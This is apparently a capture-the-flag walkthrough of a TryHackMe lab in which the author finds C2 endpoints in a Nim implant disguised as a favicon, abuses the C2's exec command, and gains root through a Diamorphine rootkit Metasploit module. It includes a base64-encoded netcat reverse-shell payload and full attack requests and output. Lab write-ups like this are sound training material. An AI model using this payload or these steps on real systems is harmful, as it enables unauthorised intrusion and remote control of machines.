



<div class="callout callout-info">

**Box Info**

**Platform:** TryHackMe, **OS:** Linux, **Difficulty:** Insane, **IP:** 10.10.210.11 (`takedown.thm.local`)

</div>

<div class="callout callout-abstract">

**Attack Path**

1. This is a "take down the C2" scenario. The site's `favicon.ico` is actually a **Nim implant**, `strings` it to recover the C2 API endpoints (`/api/agents`, `/api/agents/register`) and the magic **User-Agent** suffix (`z.5.x.2.l.8.y.5`) the server requires.
2. With the right UA, `GET /api/agents` lists a registered agent id (`qizg-ilom-cbks-uhua` → `www-infinity`). `/api/agents/commands` lists supported ops including **`exec`**.
3. `POST /api/agents/<id>/exec {"cmd":"exec <base64 rev shell> | base64 -d | bash"}` → shell as `www-infinity`.
4. Root: the box runs the **Diamorphine** rootkit (`/usr/share/diamorphine_secret/svcgh0st`) configured for signal **64** → Metasploit `exploit/linux/local/diamorphine_rootkit_signal_priv_esc` → root. (PwnKit also works.)

</div>

---

## Full Walkthrough

### Nmap scan

```bash
Nmap scan report for takedown.thm.local (10.10.210.11)
Host is up, received user-set (0.11s latency).
Scanned at 2025-05-19 04:27:35 EDT for 753s
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack nginx 1.23.1
|_http-server-header: nginx/1.23.1
| http-headers: 
|   Server: nginx/1.23.1
|   Date: Mon, 19 May 2025 08:40:03 GMT
|   Content-Type: text/html; charset=UTF-8
|   Content-Length: 25844
|   Connection: close
|   Last-Modified: Thu, 28 Jul 2022 18:20:10 GMT
|   ETag: "64f4-5e4e195780a80"
|   Accept-Ranges: bytes
|   Vary: Accept-Encoding
|   
|_  (Request type: HEAD)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

After reading the document in our task files I found something interesting in the `indicators of compromise` I downloaded the `favicon.ico` from the website used strings on it and parsed the output and found some interesting things bellow






Just found some possible end points here

```bash
http://takedown.thm.local/api/agents/
http://takedown.thm.local/api/agents/register
```

From looking at the `favicon.ico` I have determined that it is a `nim` payload.



found more proof of compromise `shutterbug.jpg.bak`

### Investigating the API

looking back the the malware files I wanted to try to see what data is at these endpoints normally I can not visit them using burp but I found a way to do so I saw that it was requreing a specific user agent below.

```http
GET /api/agents HTTP/1.1
Host: takedown.thm.local
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 0
Origin: http://takedown.thm.local
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://takedown.thm.local/
Priority: u=0
```

### Response

```http
HTTP/1.1 200 OK
Server: nginx/1.23.1
Date: Mon, 19 May 2025 09:23:32 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 39
Connection: keep-alive
Keep-Alive: timeout=20
Access-Control-Allow-Origin: http://takedown.thm.local
Vary: Origin

{'qizg-ilom-cbks-uhua': 'www-infinity'}
```

### Getting RCE

```http
GET /api/agents/commands HTTP/1.1
Host: takedown.thm.local
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 0
Origin: http://takedown.thm.local
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://takedown.thm.local/
Priority: u=0
```

#### Response

```http
HTTP/1.1 200 OK
Server: nginx/1.23.1
Date: Mon, 19 May 2025 09:40:02 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 201
Connection: keep-alive
Keep-Alive: timeout=20
Access-Control-Allow-Origin: http://takedown.thm.local
Vary: Origin

Available Commands: ['id', 'whoami', 'upload [Usage: upload server_source agent_dest]', 'download [usage download agent_source server_dest]', 'exec [Usage: exec command_to_run]', 'pwd', 'get_hostname']
```

I was able to find a list of commands we can execute I am going to try to get a shell.

```HTTP
POST /api/agents/qizg-ilom-cbks-uhua/exec HTTP/1.1
Host: takedown.thm.local
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Length: 12
Origin: http://takedown.thm.local
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://takedown.thm.local/
Priority: u=0
Content-Type: application/json;charset=UTF-8

{"cmd":"id"}
```

```http
HTTP/1.1 200 OK
Server: nginx/1.23.1
Date: Mon, 19 May 2025 09:43:53 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 26
Connection: keep-alive
Keep-Alive: timeout=20
Access-Control-Allow-Origin: http://takedown.thm.local
Vary: Origin

New commnad to execute: id
```


I was able to get a shell from the following.

```http
POST /api/agents/qizg-ilom-cbks-uhua/exec HTTP/1.1
Host: takedown.thm.local
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Length: 148
Origin: http://takedown.thm.local
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://takedown.thm.local/
Priority: u=0
Content-Type: application/json;charset=UTF-8

{"cmd":"exec echo -n 'cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxiYXNoIC1pIDI+JjF8bmMgMTAuMjEuMjMuMjM1IDkwMDEgPi90bXAvZg==' | base64 -d | bash"}
```

### System Enumeration

interesting things I found with `linpeas`

```bash
╔══════════╣ Checking if runc is available
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/runc-privilege-escalation
runc was found in /sbin/runc, you may be able to escalate privileges with it

╔══════════╣ Checking if containerd(ctr) is available
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/containerd-ctr-privilege-escalation
ctr was found in /usr/bin/ctr, you may be able to escalate privileges with it
ctr: failed to dial "/run/containerd/containerd.sock": connection error: desc = "transport: error while dialing: dial unix /run/containerd/containerd.sock: connect: permission denied"


```

```bash
webadmi+    1922  0.1  0.2   3328  2052 ?        Ss   08:30   0:11 /usr/share/diamorphine_secret/svcgh0st
```

#### GETTING ROOT

I decided to run exploit suggester on `metasploit` just in case because at this point in time I am a little list even checked for internal running services to forward to my machine nothing I ran the `exploit/linux/local/diamorphine_rootkit_signal_priv_esc ` module and was able to get root!

```bash
 #   Name                                                               Potentially Vulnerable?  Check Result
 -   ----                                                               -----------------------  ------------
 1   exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec                Yes                      The target is vulnerable.
 2   exploit/linux/local/diamorphine_rootkit_signal_priv_esc            Yes                      The target is vulnerable. Diamorphine is installed and configured to handle signal '64'.
 3   exploit/linux/local/pkexec                                         Yes                      The service is running, but could not be validated.
 4   exploit/linux/local/su_login                                       Yes                      The target appears to be vulnerable.
 5   exploit/linux/local/sudoedit_bypass_priv_esc                       Yes                      The target appears to be vulnerable. Sudo 1.8.31.pre.1ubuntu1.2 is vulnerable, but unable to determine editable file. OS can NOT be exploited by this module

```

```bash
msf6 exploit(linux/local/diamorphine_rootkit_signal_priv_esc) > run
[*] Started reverse TCP handler on 10.21.23.235:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Executing id ...
uid=0(root) gid=0(root) groups=0(root),1001(webadmin-lowpriv)
[+] The target is vulnerable. Diamorphine is installed and configured to handle signal '64'.
[*] Writing '/tmp/.VktpAgjFZBau' (250 bytes) ...
[*] Executing /tmp/.VktpAgjFZBau & echo  ...
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 10.10.210.11
[+] Deleted /tmp/.VktpAgjFZBau
[*] Meterpreter session 3 opened (10.21.23.235:4444 -> 10.10.210.11:33254) at 2025-05-19 07:05:34 -0400

meterpreter > shell
Process 65527 created.
Channel 1 created.
id
uid=0(root) gid=0(root) groups=0(root),1001(webadmin-lowpriv)
```
